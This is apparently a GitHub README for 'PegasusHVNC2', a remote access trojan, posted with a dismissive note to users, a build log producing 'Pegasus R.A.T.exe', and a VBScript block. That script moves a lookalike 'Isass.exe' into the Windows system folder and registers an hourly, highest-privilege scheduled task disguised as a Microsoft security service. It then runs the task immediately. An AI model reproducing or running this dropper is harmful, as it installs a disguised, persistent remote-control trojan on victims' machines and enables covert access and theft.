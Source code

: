 # PegasusHVNC2
I would kindly ask you ***not to bother me*** with questions like it won't compile help
or if you get that obviuos error like damn resource is missing heeeeelp - simply ***I don't care(especially for statements I can't wait, I want and similar. Feel free to purchase garbage mentioned above or reverse yourself).***
***Im not*** posting this so kids could play hackers, ***nor do I support reversed projects.***
Anyways if one decide to msg me with similar bs, please before you do download [ILSpy](https://github.com/icsharpcode/ILSpy/).
IF one manage to compile it without issues feel free to contact me if not go back to ***Hello world apps.***

![Screenshot_1](https://user-images.githubusercontent.com/1867768/164581897-d8b3750c-90e5-49b2-9ea5-35bd7f3d9f98.png)

[Except ones compiled from full source ;)]
https://streamable.com/ghpv5y
```
Build started...
1>------ Build started: Project: Pegasus R.A.T, Configuration: Release Any CPU ------
1>  Pegasus R.A.T -> S:\iPwnNoobPony\Pegasus42\Source\Pegasus R.A.T\bin\Release\Pegasus R.A.T.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```
![badpony](https://user-images.githubusercontent.com/1867768/164579605-c4a11e62-87d5-48eb-bd95-f2dd976ac840.png)
```
on error resume next
set o=createobject("wscript.shell")
'f=o.ExpandEnvironmentStrings("%appdata%\Pantheon")
f=o.ExpandEnvironmentStrings("%appdata%")
c = "cmd /c md " & f 
'o.run c,0,1
WScript.Sleep(1000)
'c = "cmd /c move " & chr(34) & f & "\..\Isass.exe" & chr(34) & " " & chr(34) & f & chr(34)
c = "cmd /c move " & chr(34) & f & "\Isass.exe" & chr(34) & " " & chr(34) & "C:\windows\syswow64" & chr(34)
o.run c,0,1
'c = "schtasks /create /f /tn " & chr(34) & "OneDrive.{7d01bf11-6e05-4dfd-8936-9366c7d70b4d}" & chr(34)
c = "schtasks /create /f /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34)
c = c & " /sc hourly /rl highest /tr " & chr(34) & "c:\windows\syswow64\Isass.exe" & chr(34)
o.run c,0,1
Wscript.Sleep(2000)
o.run "schtasks /run /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34),0,0
```

Keep up the good work ^^

![lol](https://user-images.githubusercontent.com/1867768/163475489-3408e8ac-d47d-4648-9329-caf9790674dd.png)
![1](https://user-images.githubusercontent.com/1867768/164018731-957cbd11-6777-4ba9-8bb9-ce190be2f0ac.png)
![2](https://user-images.githubusercontent.com/1867768/164018740-5a82aa39-c27f-4476-b535-c3a01a7cfbcc.png)
![3](https://user-images.githubusercontent.com/1867768/164018744-04966fbd-b5e7-4a8d-809a-98135a585df6.png)
![4](https://user-images.githubusercontent.com/1867768/164018747-f2e92ce9-ac78-45f6-b8b8-551ff637f5dc.png)
